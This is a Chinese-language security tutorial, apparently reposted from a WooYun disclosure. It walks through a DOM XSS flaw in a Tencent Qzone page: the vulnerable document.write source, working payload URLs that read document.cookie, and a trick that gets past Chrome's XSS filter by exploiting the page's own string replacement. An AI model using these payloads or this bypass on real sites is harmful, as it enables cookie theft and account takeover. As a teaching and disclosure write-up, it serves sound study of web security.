



# 18\. XSS 过滤器绕过 [猥琐绕过]

# 18\. XSS 过滤器绕过 [猥琐绕过]

> 来源：[18\. XSS 过滤器绕过 [猥琐绕过]](http://www.wooyun.org/bugs/wooyun-2010-016678)

## 简要描述

有些时候，通用的绕过技巧并不可行，这个时候我们就得观察缺陷点的周围环境，想想其它办法咯。“猥琐绕过”与通用绕过不 同的是，它通用性小，往往只是特例。

## 详细说明

1\. 直接看实例点：

```
http://qzs.qq.com/qzone/v6/custom/custom_module_proxy.html#siDomain=1&g_StyleID=aaaaaaaaaa 
```

2\. 可以看出，这是一个 DOM XSS 的点。



3\. 我们看看源码。

```
....
var siDomain = paras['siDomain'],
    g_StyleID = paras['g_StyleID'].replace("v6/",""); 
if(siDomain.indexOf(".qq.com")>-1){//防止 qzs.qq.com
    siDomain = paras['siDomain'] = "qzonestyle.gtimg.cn";
}
document.write('<link href="http://'+siDomain+'/qzone_v6/gb/skin/'+g_StyleID+'.css" rel="stylesheet" /><link href="http://'+siDomain+'/qzone_v6/home_normal.css" rel="stylesheet" />');
... 
```

不难看出，siDomain 与 g_StyleID 都是地址栏里获取过来，然后通过 document.write 输出到页面中。 4\. 利用先前教程的知识，我们不难构造出利用代码。

```
http://qzs.qq.com/qzone/v6/custom/custom_module_proxy.html#siDomain=1&g_StyleID="><script>alert(document.cookie)</script> 
```

可以看到，IE 下成功弹出。


5\. 但是到了 chrome 下，又被拦截了。。



6\. 这个时候怎么办呢？ 因为这里接受地址栏的参数时，是以 `"="` 分割，因而我们的代码中是不允许携带 等号的。故上一篇的技巧不 能拿到这里来使用了！

7\. chrome 拦截，是有一定的拦截规则的，只有它觉得是恶意代码的才会去拦截。这个时候，就需要我们“观察地形”啦！！ 我们仔细看看这句。

```
g_StyleID = paras['g_StyleID'].replace("v6/",""); 
```

8\. 不难看出，这里会对 `g_StyleID` 进行一次替换，将 `v6/`替换为空。那么如果我们的 `g_StyleID` 写为下面的情况

```
<scrv6/ipt>alert(document.cookie)</script> 
```

经过替换后，就会变成。

```
<script>alert(document.cookie)</script> 
```

但是 chrome 并不会把<scrv6/ipt>alert(document.cookie)</script> 当作恶意的，是不是就可以绕过了？ 我们试试。

```
http://qzs.qq.com/qzone/v6/custom/custom_module_proxy.html#siDomain=1&g_StyleID="><scv6/ript>alert(document.cook ie)</script> 
```

果然可以～



这样一来，我们这个 XSS，就不会被浏览器的 XSS 过滤器所蹂躏啦！

## 修复方案

进入 document.write 前，先过滤下